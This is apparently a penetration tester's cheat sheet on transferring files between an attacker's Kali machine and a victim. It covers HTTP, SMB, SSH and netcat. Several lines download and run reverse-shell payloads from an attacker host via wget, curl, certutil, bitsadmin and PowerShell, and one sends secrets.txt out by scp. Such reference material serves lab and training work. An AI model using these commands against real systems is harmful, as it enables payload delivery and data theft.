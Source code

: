 

# Transfering files
## HTTP

### Method 1

#### Sender

`python3 -m http.server 8000`
`python -m SimpleHTTPServer`

#### Receiver
##### Linux
`wget http://10.10.10.79:8000/rev_shell.sh -O /tmp/rev_shell.sh`
(<file> can be just the file name to save to current location, or a full path)
`curl http://10.10.10.79:8000/rev_shell.sh -o /tmp/rev_shell.sh`

##### Windows
`curl http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe`
(we need to mention the -o (-OutFile) flag in order to save the file. If we do not mention the flag then it will only return it as an object i.e., WebResponseObject.)
`certutil -urlcache -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe`
`certutil -urlcache -split -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe`
(The -split option in certutil is used to split large files into smaller segments to perform the file transfer.)
`bitsadmin /transfer job ttp://10.10.10.79:8000/rev_shell.exe C:\Users\Public\rev_shell.exe`
(Bitsadmin is a command-line utility for handling Background Intelligent Transfer Service (BITS) tasks in Windows. It facilitates different file transfer operations, including downloading and uploading files. <br> The C:\Users\Public\ directory is accessible to all users on a Windows system)
`powershell wget http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe`
`powershell -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.79:8000/rev_shell.exe', 'rev_shell.exe')`
instantly execute it:
``

### Method 2

#### Sender

`curl -T rev_shell.exe http://10.10.10.79:8000`

#### Receiver

python3 -m SimpleHTTPPutServer 8080

[SimpleHTTPPutServer.py](https://gist.github.com/fabiand/5628006)

```
# python3 -m SimpleHTTPPutServer 8080

from http.server import HTTPServer, SimpleHTTPRequestHandler

class PutHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_PUT(self):
        print(self.headers)
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()


def run(server_class=HTTPServer, handler_class=PutHTTPRequestHandler):
    server_address = ('', 8000)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```




## FTP
Kali -> Victim

| Kali    | Linux Victim | Windows Victim cmd.exe |
| -------- | ------- |
| python3 -m http.server 8080  | wget ftp://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>) | ...|
| python3 -m pytfplib -w -p <Port_number>

## SMB

#### Sender
`impacket-smbserver share .`
`impacket-smbserver share $(pwd) -smb2support`
( Here we are giving the shared directory name as share, the significance of the share here is that it converts the file’s long path into a single share directory. Here we can give the full path of directory or the pwd as argument so that it takes the current directories path.)

#### Receiver

```
smbclient -L 192.168.31.141
smbclient "\\\\192.168.31.141\share"
ls
get ignite.txt
put data.txt
```

`impacket-smbclient`

`copy ignite.txt \\192.168.31.141\share\ignite.txt`

to instantly execute it: `powershell -c (\\<kali_IP\<server_name>\<payload)`

or just copy: `copy \\192.168.31.141\share\ignite.txt`

Kali -> Victim

| Kali    | Windows Victim PowerShell |
| -------- | ------- |
| impacket-smbserver <server_name> .  | to instantly execute it: powershell -c (\\<kali_IP\<server_name>\<payload) |

impacket-smbserver <server_name> .

## SSH

### Sender

`scp secrets.txt kali@10.10.10.79:/path/to/dir`
`scp rev_shell.exe raj@192.168.31.219:/C:/Users/Public`

### Receiver



scp <remote_username>@(remote_IP):/path/to/<file_name> /path/to/local_dir

| Sending    | Receiving |
| ------- | ------- |
| scp <file_name> <remote_username>@<remote_IP>:/path/to/dir | scp <remote_username>@(remote_IP):/path/to/<file_name> /path/to/local_dir |

## NetCat

| Sending | Receiving |
| -------- | ------- |
| nc -w 3 [destination] <Port_number> < <file_name> | nc -l -p <Port_number> > <file_name> |
| | nc -lvnp <Port_number> |



Useful notes:
- on Linux receiving: worth using /tmp directory, as it is globally readable, writeable and executable
- upgrade your shell, if possible
- try multiple methods
